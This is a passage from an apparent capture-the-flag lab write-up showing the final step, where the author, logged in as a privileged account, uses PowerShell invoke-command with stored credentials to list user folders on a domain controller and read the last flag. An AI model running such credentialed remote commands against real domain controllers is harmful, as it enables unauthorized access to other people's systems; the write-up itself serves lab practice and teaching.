Ok, we are now logged in as `p00_adm`, we can run commands on the DC by using `invoke-command`:

```
[[dead:babe::1001]]: PS C:\Users\p00_adm\Documents> invoke-command -credential $credential -computername dc -scriptblock { dir c:\users}


    Directory: C:\users


Mode                LastWriteTime         Length Name                                PSComputerName
----                -------------         ------ ----                                --------------
d-----        3/15/2018   1:20 AM                Administrator                       dc
d-----        3/15/2018  12:38 AM                mr3ks                               dc
d-----        4/12/2018   4:37 AM                p00_adm                             dc
d-r---       11/21/2016   3:24 AM                Public                              dc

[[dead:babe::1001]]: PS C:\Users\p00_adm\Documents> invoke-command -credential $credential -computername dc -scriptblock { dir c:\users\mr3ks}


    Directory: C:\users\mr3ks


Mode                LastWriteTime         Length Name                                PSComputerName
----                -------------         ------ ----                                --------------
d-r---        3/22/2018  11:17 PM                Contacts                            dc
d-r---         4/7/2018   1:06 PM                Desktop                             dc
d-r---        3/22/2018  11:17 PM                Documents                           dc
d-r---         4/7/2018  12:51 PM                Downloads                           dc
d-r---        3/22/2018  11:17 PM                Favorites                           dc
d-r---        3/22/2018  11:17 PM                Links                               dc
d-r---        3/22/2018  11:17 PM                Music                               dc
d-r---        3/22/2018  11:17 PM                Pictures                            dc
d-r---        3/22/2018  11:17 PM                Saved Games                         dc
d-r---        3/22/2018  11:17 PM                Searches                            dc
d-r---        3/22/2018  11:17 PM                Videos                              dc


[[dead:babe::1001]]: PS C:\Users\p00_adm\Documents> invoke-command -credential $credential -computername dc -scriptblock { dir c:\users\mr3ks\desktop}


    Directory: C:\users\mr3ks\desktop


Mode                LastWriteTime         Length Name                                PSComputerName
----                -------------         ------ ----                                --------------
-a----        3/26/2018   5:47 PM             37 flag.txt                            dc


[[dead:babe::1001]]: PS C:\Users\p00_adm\Documents> invoke-command -credential $credential -computername dc -scriptblock { type c:\users\mr3ks\desktop\flag.txt}
POO{1196ef8bc523f0...}
```

Jackpot! We got the last flag: `POO{1196ef8bc523f0...}`